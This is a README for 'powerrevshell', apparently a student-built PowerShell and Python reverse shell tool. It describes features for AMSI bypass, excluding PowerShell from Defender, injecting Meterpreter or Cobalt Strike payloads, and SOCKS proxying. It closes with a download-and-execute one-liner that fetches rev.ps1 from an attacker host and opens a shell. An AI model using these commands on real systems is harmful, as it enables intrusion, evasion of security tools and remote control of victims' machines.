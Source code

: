# Introduction

A small reverse shell project that i build during my university intership.\
It is written with Python and Powershell.\
33333333333333333333333333333333333333333 but also 7 (\~^-^)\~

# Installation

To simply install it:

1.  Clone this repo with the following code
    ```
    git clone https://github.com/Fedami/powerrevshell---rev.ps1
    ```
3.  Run the following code to install all the requirements
    ```
    pip install -r requirements.txt
    ```
3.  Run the following code to make the .py file executable or simply run it with python
    ```
    chmod +x powerrevshell.py or python3 powerrevshell.py
    ```
## Powerrevshell

![powerrevshell-start](https://user-images.githubusercontent.com/82824055/170969038-c81c54a0-721b-44f5-835b-86d11840211f.png)

# Optional argument:
  -h, --help        &emsp;&emsp;&ensp;    show this help message and exit\
  -f &emsp;&emsp;&emsp;&emsp;&emsp;&emsp; smb folder for transfer and execute funciontality\
  &emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;                      Enter folder name [Default: root]\
  -i attacker ip    &emsp;&nbsp;    Enter your local IP [Default: 192.168.0.114]\
  -p port           &emsp;&emsp;&emsp;&ensp;&nbsp;    listener port for reverse shell [Default: 9001]\
  -wp webport       &emsp;&nbsp;    listener port for http server [Default: 8000]\
  -sp smbport       &emsp;&ensp;     listener port for smb server [Default: 445]\
  -http             &emsp;&emsp;&emsp;&emsp;&ensp;&nbsp;    Start http web server [Default: 8000]\
  -smb              &emsp;&emsp;&emsp;&emsp;&ensp;&nbsp;    Start smb web server [Default: 445]\
  -k                &emsp;&emsp;&emsp;&emsp;&emsp;&emsp;    If ports are being used it will kill the process to force the exexcution.

# Functionality

Powerrevshell.py comes with several function accessible via the "menu" option.

![powerrevshell-menu](https://user-images.githubusercontent.com/82824055/171123395-27647e7f-9853-43e8-adae-8ea33e231bf3.png)

### get - put

The get and put functionality are build using TCPSocket to transfer files between the machines. To prevent data loss, on each message, are sent support string and md5sum to know if the actual bytes are sent correctly.

```
get <file.txt> / put <file.txt>
```

### smb-get

The smb-get functionality simply transfer a file using the Copy-Item cmdlet to the smbserver started using impacket-smbserver.\
If you didn't start the program with the -smb switch or started youreself (impacket-smbserver) the command will fail.

```
smb-get <file.txt>
```

### down-file

The down-file functionality simply download a file from the current machine to the target machine using HTTP server with python.
If you didn't start the program with the -http switch or started youreself (python -m http.server 8000) the command will fail.

```
down-file <file.txt>
```

### load

The down-file functionality simply load a powershell script from the current machine to the target machine using HTTP server with python.
If you didn't start the program with the -http switch or started youreself (python -m http.server 8000) the command will fail.

```
load <file.ps1>
```

### amsi-bypass

The amsi-bypass functionality will try to bypass AMSI on the current shell by using the Matt Graeber amsi bypass method obfuscated with two bytes array.

```
amsi-bypass
```

### exclude

The exlucde functionality will try to exclude powershell.exe from defender, admin permission are needed.

```
exclude
```

### payload

The payload functionality will try to create a new process and inject the shell payload that can be meterpreter or cobalt strike...\
The payload must be a cs file.

```
payload <payload.cs>
```

Work used for the socks functionality: [PowerProxy by get-get-get-get](https://github.com/get-get-get-get/PowerProxy).

### socks-start

Socks-start start a socks proxy.

```
socks-start <L-PORT> <P-PORT>
```
You can also omit L-PORT and P-Port, by default L-PORT is 8080 and P-PORT is 1080.

```
socks-start
```

### socks-stop

Socks-stop will stop any running socks on the target machine that was started before.

```
socks-stop
```

### socks

Socks will list if there is a running socks proxy.

```
socks
```

### close

Close will terminate the session by killing the powershell process, if the command exclude was used it will delete the exclusion policy. Also if it was started a socks proxy it will kill it before killing the session.

```
close
```

## Rev.ps1

Rev.ps1 is the powershell script to connect back to us.\
To start the reverse shell run the following code on the target machine.

```
IEX (New-Object System.Net.WebClient).DownloadString('http://<IP>:<PORT>/rev.ps1'); Send-Shell -i <IP> -p <ShellPort>
```
